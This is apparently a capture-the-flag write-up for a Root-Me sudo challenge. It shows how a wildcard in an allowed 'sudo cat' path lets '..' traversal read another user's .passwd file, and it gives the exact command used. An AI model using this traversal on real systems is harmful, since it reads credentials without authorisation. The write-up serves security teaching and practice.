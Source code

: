 ```
 	ssh -p 2222 app-script-ch1@challenge02.root-me.org
```

The provided PDF explains a lot about sudo.
If you type

```
sudo -l
```

you will see that we can run the following command:

```
(app-script-ch1-cracked) /bin/cat /challenge/app-script/ch1/ch1/*
```

This is a big breach in security, because in \*, .. are allowed.
```
sudo -u app-script-ch1-cracked cat /challenge/app-script/ch1/ch1/../ch1cracked/.passwd
```

We have the flag !
